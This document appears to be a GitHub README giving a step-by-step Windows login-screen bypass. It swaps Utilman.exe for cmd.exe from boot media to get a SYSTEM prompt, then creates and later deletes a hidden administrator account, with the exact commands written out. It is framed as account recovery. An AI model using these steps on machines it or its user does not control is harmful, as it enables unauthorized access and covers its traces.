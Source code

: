 # Windows Admin Reset Hack

Got Root?

## Purpose 

This is a great little trick for recovering accounts/passwords or even getting admin-level privileges on a Windows-based computer. This was recently used by me when our team encountered this [exact issue](https://answers.microsoft.com/en-us/windows/forum/all/no-way-to-input-admin-userpass/be15fb3b-49f9-48b8-8de8-631a8b789fbd).  We couldn't join newly re-imaged machine to a domain, and our admin account was having weird behaviour with UAC controls. The link does have someone suggest a fix - but it was suggesting registry edits, which required admin rights in the first place, and booting into recovery to modify a registry entry wasn't quick and dirty enough.

We haven't completely narrowed down the root cause, but it may be Group Policy related on our Domain Controller.  It definitely isn't the best way to fix this issue...  Especially when you're in a remote situation, don't have access to BIOS passwords, or the drive is encrypted.  However, it saved us in a pinch!  

This little hack goes all the way back to the XP/Vista days. I'm surprised its still a thing?

## Description

This quick-and-dirty little hack allows a user to get an Administration/System-Level Command Line prompt on Windows at the login screen.  Allowing them to do whatever they want or needed to that machine if they are denied Administrative access to it. This is also great when you have forgotten your password to an account on your own Windows computer.

## Steps

1. Boot the device off of USB with some Live Linux Distro or Window Recovery Media.
     - If this is Windows 10 Recovery Media:
          - Once the media has fully booted, choose the Language, click Next.
          - Instead of proceeding with a new install, in the bottom left-hand corner of the window, click "Repair This Computer."
          - When the next screen loads up, hit the SHIFT+F10 keys to bring up a command prompt.
     - If this is a Linux Live Distro:
          - Open up a terminal window and mount the computer's hard drive where Windows is installed.
2. Make a backup of Utilman.exe
     - If this is Windows 10 Recovery Media:
          - `move C:\Windows\System32\Utilman.exe C:\Windows\System32\Utilman.exe.backup`
     - If this is a Linux Live Distro:
          - `mv /mnt/harddrive/Windows/System32/Utilman.exe /mnt/harddrive/Windows/System32/Utilman.exe.backup`
3. Copy cmd.exe as Utilman.exe in the system32 folder
     - If this is Windows 10 Recovery Media:
          - `copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe`
     - If this is a Linux Live Distro:
          - `cp /mnt/harddrive/Windows/System32/cmd.exe /mnt/harddrive/Windows/System32/Utilman.exe`
4. Reboot the computer and remove the boot media just used.
5. When the Login Screen appears - click on the Ease of Access icon in the bottom right-hand corner
     - YOU NOW HAVE AN ADMIN COMMAND PROMPT!
6. Create a user for yourself on the command prompt.
     - `net user <username> <password> /add`
     - `net localgroup administrators <username> /add`
     - Close the command prompt.
7. Log into Windows using the username just created.
8. Add the user account that doesn't have Admin access to the Administrators local group
     - `net user <username> <password> /add`
     - `net localgroup administrators <username> /add`
     - Close the command prompt.
9. Clean up after yourself! Move Utilman.exe back to C:\Windows\System32\Utilman.exe. 
     - Approve overwriting, as we're setting this back to normal.
10. Log out of the account you just created, and log back in to the computer with the other account that lost admin access
11. Clean up after yourself some more!
      - `net localgroup administrators <username> /delete`
      - `net user <username> /delete`

